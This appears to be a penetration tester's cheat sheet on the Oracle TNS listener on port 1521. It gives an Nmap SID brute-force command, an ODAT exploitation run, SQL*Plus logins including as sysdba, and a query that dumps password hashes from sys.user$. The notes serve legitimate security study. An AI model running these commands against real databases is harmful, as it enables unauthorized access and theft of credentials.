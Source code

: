 #### Description 
- Oracle Transparent Network Substrate (TNS) server allows clients to connect to Oracle databases
- supports IPX/SPX and TCP/IP protocol stacks
- enables encryption
- System Identifier (SID) identifies database instance, identifies instance of database to connect to 

#### Port
- listener listens for connections on TCP port 1521

#### Interaction / Commands

SID bruteforcing with Nmap

```
sudo nmap -p1521 -sV IP_Address --open --script oracle-sid-brute
```

- use Oracle Database Attacking Tool (ODAT) for exploitation 

```
./odat.py all -s IP_Address
```

- use SQLplus for interacting with Oracle database 

```
sqlplus username/password@IP_Address/XE

select table_name from all_tables;

sqlplus username/password@IP_Address/XE as sysdba

select name, password from sys.user$;

```
#### Footprinting 

```
sudo nmap -p1521 -sV IP_Address --open
```
